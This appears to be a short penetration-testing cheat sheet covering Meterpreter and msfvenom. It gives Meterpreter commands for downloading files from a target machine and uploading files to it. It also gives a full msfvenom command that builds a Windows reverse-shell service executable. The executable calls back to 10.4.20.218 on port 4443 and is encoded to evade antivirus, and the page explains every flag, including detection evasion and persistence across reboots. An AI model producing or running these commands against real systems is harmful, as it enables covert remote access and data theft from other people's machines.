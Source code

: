 ##### ***Meterpreter shell***
You can download files to the machine by running this command:
```
download C:\Users\TargetUser\file.txt /local/direcotry
```

You can upload files buy using the `upload` command:
```
upload /path/to/file C:\
```
##### ***Msfvenon***
###### **Windows reverse shell over TCP**
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.20.218 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

this command creates a Windows service executable that, when run on a target machine, will attempt to connect back to the IP address `10.4.20.218` on port `4443` to provide a shell. The payload is encoded with `x86/shikata_ga_nai` to evade detection. The output file is named `Advanced.exe`.
- **Payload Type (`-p windows/shell_reverse_tcp`)**: The payload is a Windows reverse shell over TCP. When executed on a target machine, it will attempt to connect back to the specified IP and port, providing a shell to the attacker.
- **Local Host (`LHOST=10.4.20.218`)**: The IP address to which the reverse shell will attempt to connect back is set to `10.4.20.218`.
- **Local Port (`LPORT=4443`)**: The port on which the reverse shell will attempt to connect back is set to `4443`.
- **Encoder (`-e x86/shikata_ga_nai`)**: The payload will be encoded using the `x86/shikata_ga_nai` encoder to help evade basic antivirus or intrusion detection systems.
- **Format (`-f exe-service`)**: The payload will be formatted as a Windows service executable. This means it's designed to be installed as a service on the target machine, which could allow it to persist across reboots.
- **Output (`-o Advanced.exe`)**: The generated payload will be saved as a file named `Advanced.exe`.